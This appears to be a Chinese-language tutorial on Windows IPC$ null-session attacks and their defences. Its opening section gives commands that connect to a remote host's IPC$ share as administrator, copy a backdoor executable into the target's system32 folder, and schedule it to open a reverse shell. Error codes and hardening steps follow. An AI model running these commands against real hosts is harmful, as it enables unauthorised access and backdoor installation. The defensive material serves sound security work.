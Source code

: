 实战经典利用
------

```
C:\>net use \\192.168.1.1\ipc$ /user:administrator "" 	#建立一个空链接,账户要有权限
C:\>net view \\192.168.1.1	#查看远程的共享资源
C:\>copy test.exe \\192.168.1.1\admin$\system32  #将一次性后门test.exe复制到对方的系统文件夹下，前提是admin$开启
C:\>net time \\192.168.1.1	#查看远程主机的当前时间
C:\>at \\192.168.1.1 时间 test.exe #设置时间执行木马反弹shell
```

IPC$连接失败的原因
-----------

```
1)你的系统不是NT或以上操作系统。
2)对方没有打开ipc$默认共享。
3)不能成功连接目标的139，445端口。
4)命令输入错误。
5)用户名或密码错误。
```

常见错误号
-----

```
1)错误号5，拒绝访问：很可能你使用的用户不是管理员权限的，先提升权限。
2)错误号51，Windows 无法找到网络路径：网络有问题。
3)错误号53，找不到网络路径：ip地址错误；目标未开机；目标lanmanserver服务未启动；目标有防火墙（端口过滤）。
4)错误号67，找不到网络名：你的lanmanworkstation服务未启动；目标删除了ipc$。
5)错误号1219，提供的凭据与已存在的凭据集冲突：你已经和对方建立了一个ipc$，请删除再连。
6)错误号1326，未知的用户名或错误密码：原因很明显了。
7)错误号1792，试图登录，但是网络登录服务没有启动：目标NetLogon服务未启动。（连接域控会出现此情况）。
8)错误号2242，此用户的密码已经过期：目标有帐号策略，强制定期要求更改密码。
```

防护措施
----

*   禁止空连接进行枚举

```
运行regedit，找到如下主键[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA]把RestrictAnonymous = DWORD的键值改为：1，如果设置为"1"，一个匿名用户仍然可以连接到IPC$共享，但无法通过这种连接得到列举SAM帐号和共享信息的权限；在Windows 2000 中增加了"2"，未取得匿名权的用户将不能进行ipc$空连接。建议设置为1。如果上面所说的主键不存在，就新建一个再改键值。如果你觉得改注册表麻烦，可以在本地安全设置中设置此项： 在本地安全设置－本地策略－安全选项－"对匿名连接的额外限制"
```

*   禁止默认共享

```
#删除共享(每次输入一个）
net share #查看共享
net share ipc$ /delete
net share admin$ /delete
net share c$ /delete
net share d$ /delete（如果有e,f,……可以继续删除）

#停止server服务
net stop server /y （重新启动后server服务会重新开启）

#禁止自动打开默认共享
运行regedit
server版:找到如下主键[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters]把AutoShareServer（DWORD）的键值改为:00000000。 
pro版:找到如下主键[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters]把AutoShareWks（DWORD）的键值改为:00000000。 
这两个键值在默认情况下在主机上是不存在的，需要自己手动添加，修改后重起机器使设置生效。

#关闭ipc$和默认共享依赖的服务:server服务
```